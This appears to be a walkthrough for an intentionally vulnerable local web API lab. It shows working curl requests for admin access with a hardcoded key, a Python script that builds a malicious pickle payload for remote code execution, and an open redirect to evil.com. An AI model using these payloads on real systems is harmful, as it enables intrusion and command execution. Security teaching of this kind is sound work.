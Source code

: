 ### 🗂️ Admin Access (with API key)
```bash
curl -i -H "Authorization: Bearer <JWT>" \
-H "X-API-KEY: admin123" \
http://localhost:8000/api/admin/users
```

---

### 🧬💥 RCE With Insecure Deserialization (with API key)

To exploit this, first craft a malicious Pickle payload in Python:

```exploit_payload.py```:
```python
import pickle
import subprocess

payload = pickle.dumps((
subprocess.check_output,
(["whoami"],)
)).hex()

print(payload)
```
Run the script to generate a hexadecimal payload string.

Example output: ```8004952f000000000000008c0a73756270726f63657373948c0c636865636b5f6f75747075749493945d948c0677686f616d699461859486942e```

Then, send it using curl to the vulnerable endpoint:

```bash
curl -i -X POST http://localhost:8000/api/admin/deserialize \
-H "Authorization: Bearer <JWT>" \
-H "X-API-KEY: admin123" \
-H "Content-Type: application/json" \
-d '{"payload": "8004952f000000000000008c0a73756270726f63657373948c0c636865636b5f6f75747075749493945d948c0677686f616d699461859486942e"}'

```
If successful, the server will execute the command (e.g., whoami) and return the result in the output.

#### Response:

```bash
{
"output": "kali\n"
}
```


---

### 🗂️ Insecure Redirection
```bash
curl -i -H "Authorization: Bearer <JWT>" \
http://localhost:8000/api/redirect?target=https://evil.com
```

---